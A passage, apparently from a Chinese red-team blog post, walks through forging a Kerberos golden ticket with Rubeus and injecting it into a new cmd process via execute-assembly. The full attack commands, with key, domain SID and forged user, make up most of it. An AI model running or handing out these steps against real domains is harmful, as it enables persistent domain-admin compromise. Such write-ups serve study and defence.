 使用命令本地生成黄金票据，aes 是目前标准的加密方法，/user 指定任意的用户名，域控制器中的 KDC 服务不验证 TGT 中的用户帐户，直到 TGT 超过 20 分钟，用户可以是不存在的用户，kerberos 是静态协议，在我们这侧工具会自动把我们伪造的用户指定在管理员组，域控只会被动接受这个事实，/nowrap 是让票据变成一行方便我们复制粘贴：

```bash
Rubeus.exe golden /aes256:4a3d7520e5249a47c1fea8584229f5278a3a0b6d3fa3545aedb29b1cae457ead /user:hacker /domain:endlessparadox.com /sid:S-1-5-21-3455334608-937969980-1598144099 /nowrap
```

[![](assets/1707953845-df28feb5a24368b42a8c72aa0d2e7f39.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040353-afc7e226-c461-1.png)

execute-assembly命令用于远程拉取c#文件不落地执行，这里执行Rubeus的createnetonly命令，将创建一个新的cmd进程将票据注入其中，/ticket参数后面跟上刚刚生成的base64票据，不是很大，我们复制过来：

```bash
execute-assembly C:\tools\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:endlessparadox /username:hacker /password:123456 /ticket:doIFlz····NvbQ==
```

[![](assets/1707953845-d89b09af5eeef0312f65980e67d2e25b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240206040405-b6cfc638-c461-1.png)

执行成功了，控制台内容详细的展示了我伪造的进程 pid:
